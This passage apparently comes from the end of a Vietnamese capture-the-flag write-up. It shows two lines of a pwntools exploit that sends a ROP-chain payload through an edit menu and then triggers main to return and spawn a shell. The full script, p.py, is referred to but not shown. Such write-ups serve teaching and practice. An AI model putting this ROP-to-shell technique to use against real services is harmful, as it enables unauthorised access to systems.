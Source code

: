 ```python3
edit(1,payload) # bây giờ ta tạo ROPCHAIN
p.sendlineafter(b"[*] choice : ",b"4") # tringer main to return and get shell
```
full script in p.py in src.

chạy chương trình trên sever ta được như sau :

![image](https://user-images.githubusercontent.com/93699926/236655192-fb1d335f-97bd-4e21-87d7-b1f3f4f25c04.png)





